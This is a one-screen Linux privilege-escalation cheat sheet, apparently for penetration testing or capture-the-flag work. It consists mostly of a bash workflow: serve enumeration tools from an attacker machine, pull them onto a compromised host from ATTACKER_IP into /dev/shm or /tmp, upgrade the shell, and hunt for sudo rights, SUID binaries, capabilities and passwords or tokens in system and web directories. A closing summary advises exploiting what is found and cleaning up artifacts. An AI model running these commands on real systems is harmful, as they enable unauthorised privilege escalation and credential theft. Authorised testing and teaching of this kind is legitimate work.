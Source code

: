# Minimal cheat sheet (one-screen flow)
```bash
# Attacker
cd ~/loot
curl -LO https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
curl -LO https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
curl -LO https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
curl -LO https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
curl -LO https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64 || true
python3 -m http.server 8000

# Target
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
export A=ATTACKER_IP; cd /dev/shm 2>/dev/null || cd /tmp
for f in linpeas.sh LinEnum.sh lse.sh linux-exploit-suggester.sh pspy64; do curl -O http://$A:8000/$f 2>/dev/null || wget http://$A:8000/$f; done
chmod +x linpeas.sh LinEnum.sh lse.sh linux-exploit-suggester.sh pspy64 2>/dev/null
./linpeas.sh | tee linpeas.out
sudo -l 2>/dev/null
find / -perm -4000 -type f 2>/dev/null | sort | tee suid.out
command -v getcap >/dev/null 2>&1 && getcap -r / 2>/dev/null | tee caps.out
./pspy64 | tee pspy.out
grep -RniE 'password|secret|token|db_pass|db_user' /etc /opt /var/www /home 2>/dev/null | head -n 200 | tee cred_hits.out
```

# Summary
Automating Linux local enumeration reduces time-to-find for common privilege escalation vectors. The workflow is: stabilize shell, run a trusted enumerator (linpeas) first, confirm with LinEnum/LSE, monitor with pspy, and augment with targeted manual checks (sudo -l, SUID/SGID, capabilities, cron/systemd, writable paths, and credential hunting). Host your tools, transfer via curl/wget, and save outputs for triage. Prioritize misconfigurations and use GTFOBins for exploitation of identified binaries or sudo permissions. Clean up artifacts and document evidence thoroughly.